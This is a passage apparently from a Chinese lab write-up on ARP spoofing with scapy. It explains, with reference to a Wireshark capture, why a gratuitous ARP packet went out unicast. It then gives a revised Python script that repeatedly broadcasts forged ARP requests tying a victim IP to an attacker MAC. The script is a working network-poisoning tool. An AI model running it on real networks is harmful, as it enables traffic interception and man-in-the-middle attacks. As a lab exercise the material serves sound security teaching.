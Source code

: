 可以看到并没有更新，和预期结果不符。

于是我们用 `wireshark` 抓包分析一下问题：

![1-C-3](../image/1-C-3.png)

可以看到免费 ARP 包并没有广播出去，而是进行了单播。

经过查找资料找到了原因

- 如果在 `ARP()` 中明确指定了 `hwdst`（例如，`00:11:22:33:44:54`），`scapy` 会自动使用该地址作为以太网帧的目标地址。这是因为在网络中直接发送ARP请求时，通常期望目标设备接收，`scapy` 便推测出这是单播传输。
- 当 `hwdst` 设置为 `ff:ff:ff:ff:ff:ff` 时，`scapy` 不会自动将ARP层的广播地址应用到以太网层，因此会导致该ARP包缺乏明确的以太网广播指令，无法发送至广播地址。这时，就需要使用 `Ether()` 层指定广播地址。

于是我们对代码进行修改：

```python
#!/usr/bin/python3 
from scapy.all import ARP, Ether, sendp
import time

def arp_spoof_with_free(target_ip, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP免费数据包以广播方式实现ARP欺骗。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建Ether层，指定广播地址
    ether = Ether(dst="ff:ff:ff:ff:ff:ff")
    
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）
    
    # 将Ether和ARP层组合成一个广播包
    packet = ether / arp_request
    
    print(f"开始ARP欺骗（广播免费数据包方式）：将 {spoof_ip} 伪装成 {spoof_mac} 广播发送")

    try:
        # 持续发送ARP广播请求包，以保持欺骗效果
        while True:
            sendp(packet, verbose=False)
            print(f"已发送ARP广播免费数据包：{spoof_ip} -> {spoof_mac} 广播发送")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.6"         # 目标主机的IP地址
target_mac = "ff:ff:ff:ff:ff:ff"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"          # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
```